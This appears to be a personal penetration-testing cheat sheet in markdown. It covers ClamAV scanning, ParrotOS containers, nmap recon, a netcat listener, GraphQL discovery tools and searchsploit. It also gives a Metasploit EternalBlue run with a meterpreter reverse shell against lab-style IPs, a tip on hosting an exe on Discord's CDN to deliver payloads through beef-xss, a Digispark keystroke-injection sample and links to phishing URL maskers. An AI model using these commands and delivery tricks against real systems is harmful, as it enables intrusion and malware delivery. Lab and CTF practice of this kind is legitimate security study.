 # Security

## ClamAV

### Setup

- Download & Install
- copy clamd.conf & freshclam.conf to installation folder and comment out `# Example` line in each file
- open powershell in admin -> `./freshclam.exe`;

### Scan

```bash
# -i display infected files
# -r recursively scan subdirectories
# --log output file for results
./clamscan C:\Users\myuser -r -i --log=scanresult.txt
```

[ClamAV Docs](https://docs.clamav.net/Introduction.html)

## Cloud

Start a docker ParrotOS cloud container

```bash
docker run --name psec1 -ti parrot.run/security
docker start psec1
```

Return to an existing container

```bash
docker exec -ti psec1 bash
```

Other helpful commands

```bash
docker ps -a // list container
docker stop psec1 // stop container
docker rm psec1 // remove container
```

Available ParrotOS containers

```
- parrot.run/core
- parrot.run/security
- parrot.run/nmap (nmap, ncat, ndiff, dnsutils, netcat, telnet)
- parrot.run/metasploit (metasploit, postgresql, nmap)
- parrot.run/set (set)
- parrot.run/beef (beef-xss)
- parrot.run/bettercap (bettercap)
- parrot.run/sqlmap (sqlmap)
```

## Recon

### Ping

```bash
ping <ip>

# Pinging [ip] with 32 bytes of data:
# Reply from <ip>: bytes=32 time=25ms TTL=(128 for windows, 64 for windows)
```

### Nmap

#### Initial discovery

```bash
# -sC default scripts
# -sV probe open ports
# -Pn skip host discovery
# -oA output in three major formats
# -sn ping scan
# -A aggresive
nmap -sC -sV -A -Pn <ip>
```

#### Vulnerability analysis

```bash
ls /usr/share/nmap/scripts/ | grep smb
nmap --script smb* -p 139 <ip>
```

### NetCat

```bash
# nc <options> <port>
nc -lnvp 443 # start netcat listener on port 443
```

### GraphQL

#### Cheat Sheet

[graphql vulnerabilities](https://0xn3va.gitbook.io/cheat-sheets/web-application/graphql-vulnerabilities)

#### GraphQLmap

Provides options for gathering schema, fuzzing, and injection
Basic usage

```bash
git clone https://github.com/swisskyrepo/GraphQLmap
python setup.py install
graphqlmap -u <target>
graphqlmap > dump_new
```

#### Clairvoyance

Gathers GraphQL schema from wordlist using discovery methodology on apis with introspection disabled

```bash
pip install clairvoyance
clairvoyance <target>
```

```bash
# -o schema.json  -- file to output to
# -w wordlist.txt -- wordlist file (optional)
# --profile slow -- set speed to slow or fast for rate limiters
# --progress -- reports progress back to user
clairvoyance <target> -o schema.json -w wordlist.txt --profile slow --progress
```

Load the output json into [graphql schema viewer](https://ivangoncharov.github.io/graphql-voyager)

## Exploit

### Searchsploit

Installation

```bash
sudo git clone https://gitlab.com/exploit-database/exploitdb /opt/exploitdb
sudo ln -sf /opt/exploitdb/searchsploit /usr/local/bin/searchsploit
```

Use

```bash
searchsploit eternal
```

### Metasploit

```bash
# example eternal blue
msfconsole-start
search eternalblue
options
set rhosts 10.10.10.40
set payload windows/x64/meterpreter/reverse_tcp
use exploit/windows/smb/ms17_010_eternalblue
set lhost 10.10.14.10
set lport 4321
sysinfo
```

### Running a manual exploit

```bash
sudo git clone https://github.com/:user/:package.git
cd package
pip install -r requirements.txt
```

### SQL Injection

#### Damn Small SQLi Scanner

```bash
sudo git clone https://github.com/stamparm/DSSS.git
cd DSSS
python3 dsss.py -u "<target>"
```

## General Tips

### Easily deploy an exe

- Upload to discord
- Copy cdn path
- Use with beef-xss or anywhere else to deliver payload

### Digispark

#### Sample Script

```cpp
#include "DigiKeyboard.h"

void setup() {
DigiKeyboard.sendKeyStroke(0);
DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); // WIN + R
DigiKeyboard.println("chrome.exe https://www.youtube.com/watch?v=dQw4w9WgXcQ"); // Open chrome with funny video
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(600);
DigiKeyboard.sendKeyStroke(0);
DigiKeyboard.sendKeyStroke(KEY_F11); // Fullscreen browser
DigiKeyboard.delay(1200);
DigiKeyboard.sendKeyStroke(0);
DigiKeyboard.sendKeyStroke(KEY_F); // Fullscreen video
}
```

[convert duckyscript to c++](https://github.com/CedArctic/digiQuack)
[DigiSpark-Scripts](https://github.com/CedArctic/DigiSpark-Scripts)
[Additional scripts](https://github.com/MTK911/Attiny85)
[Flashsploit](https://github.com/thewhiteh4t/flashsploit)
[hak5rubberducky scripts](https://github.com/hak5/usbrubberducky-payloads)
[WiFi Duck](https://github.com/SpacehuhnTech/WiFiDuck)
[Python on a chip](https://github.com/jsnyder/python-on-a-chip)

### Online tools

[request catcher](https://requestcatcher.com)
[web hooks](https://webhook.site)
[graphql schema viewer](https://ivangoncharov.github.io/graphql-voyager)

### Resources

[hacktricks](book.hacktricks.xyz)
[intruder payloads](https://github.com/1N3/IntruderPayloads)
[url masker](https://github.com/jaykali/maskphish)
[mgeeky pentest tools](https://github.com/mgeeky/Penetration-Testing-Tools)
[openvas vulnerability scanner](https://github.com/greenbone/openvas-scanner)
[swisskyrepo payloads](https://github.com/swisskyrepo/PayloadsAllTheThings)
[ports list](https://github.com/maraisr/ports-list)
[clairvoyance graphql](https://github.com/nikitastupin/clairvoyance)
[graphql map](https://github.com/swisskyrepo/GraphQLmap)
[cheat sheet](https://0xn3va.gitbook.io/cheat-sheets/)
[exploitdb](https://gitlab.com/exploit-database/exploitdb)
